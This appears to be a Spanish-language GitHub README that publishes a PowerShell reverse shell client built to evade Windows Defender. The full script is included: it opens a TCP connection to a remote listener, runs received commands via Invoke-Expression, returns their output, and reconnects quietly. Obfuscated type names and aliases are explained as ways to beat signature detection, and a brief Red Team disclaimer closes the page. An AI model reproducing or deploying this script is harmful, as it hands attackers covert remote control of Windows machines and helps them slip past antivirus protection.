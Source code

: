 # Reverse Shell Bypass Windows PowerShell

Este script de PowerShell es un cliente de shell inverso, permite eludir de manera efectiva la seguridad de Windows Defender. El script recibe datos del servidor remoto a través de una conexión TCP. Estos datos se leen en un búfer, que es simplemente un bloque de memoria reservado para almacenar los datos temporales. En este caso, el búfer es un array de bytes con una longitud de 1024.
Dentro del bucle de lectura, el script lee los datos del búfer y los decodifica utilizando la codificación ASCII. 

## POC
[![Bypass Reverse Shell Windows Defender](https://i.imgur.com/M968BwB.png)](https://www.linkedin.com/feed/update/urn:li:ugcPost:7196028677061586944/)

## Funciones

1. **Conexión TCP**: El script intenta establecer una conexión TCP con un servidor remoto.

2. **Ejecución de comandos**: Los comandos enviados por el servidor remoto se ejecutan en la máquina local.

3. **Envío de la salida del comando**: La salida de los comandos ejecutados se envía de vuelta al servidor remoto.

4. **Reconexión automática**: Si la conexión se cierra por cualquier motivo, el script intentará reconectar después de un intervalo de tiempo especificado.

## Bypass Logico

El script utiliza varias técnicas para eludir Windows Defender sin necesidad de **third party tools**. 

- **Alias de cmdlets**: Se utilizan alias para los cmdlets de PowerShell para hacer que el código sea menos reconocible.

- **Codificación de cadenas**: Las cadenas en el código están codificadas para evitar la detección por parte de las soluciones de seguridad basadas en firmas.

- **Reintentos de conexión silenciosos**: Si la conexión se cierra, el script intentará reconectar silenciosamente.

```
# Author: Omar Salazar
# Define constants
$ip = "192.168.1.1" 
$port = 4444
$retryInterval = 10  
$maxRetries = 5  

# Create aliases for cmdlets
Set-Alias -Name "n" -Value "New-Object"
Set-Alias -Name "s" -Value "Start-Sleep"
Set-Alias -Name "g" -Value "Get-Location"

# Main loop
do {
    # Create TCP client
    $c = n S`ySt`em.N`eT.`s`ock`eTs.TC`PC`li`eNt($ip, $port)
    $s = $c.GetStream()

    # Buffer for incoming data
    $b = n Byt`e[] 1024
    $d = ""

    # Read loop
    while (($x = $s.Read($b, 0, $b.Length)) -ne 0) {
        # Decode and execute command
        $e = (n -TypeName System.Text.ASCIIEncoding).GetString($b,0, $x)
        $f = (iex $e 2>&1 | Out-String)

        # Prepare and send response
        $g = $f + (g).Path + '> '
        $h = ([text.encoding]::ASCII).GetBytes($g)
        $s.Write($h,0,$h.Length)
        $s.Flush()
    }

    # Close connection and wait before trying again
    $c.Close()
    s -Seconds $retryInterval
    $maxRetries--
} while ($maxRetries -gt 0)
```

## Descripción

Aquí, `n -TypeName System.Text.ASCIIEncoding` crea un nuevo objeto de tipo `System.Text.ASCIIEncoding`, que es una clase en .NET que proporciona métodos para codificar y decodificar texto en ASCII. Luego, el método GetString de este objeto se utiliza para decodificar los bytes en el búfer en una cadena de texto.

Una vez que los datos se han decodificado en una cadena de texto, se ejecutan como un comando de PowerShell con `iex $e 2>&1 | Out-String. iex` es un alias para `Invoke-Expression`, que ejecuta una cadena de texto como un comando de PowerShell. `2>&1` redirige los errores a la salida estándar, y `Out-String` convierte la salida en una cadena de texto.

## Advertencia

Este script puede ser utilizado para fines maliciosos si cae en las manos equivocadas. Es de uso exclusivo para pruebas de Red Team, asegúrate de entender completamente lo que hace un script antes de ejecutarlo. No me hago responsables de cualquier uso indebido de este script.

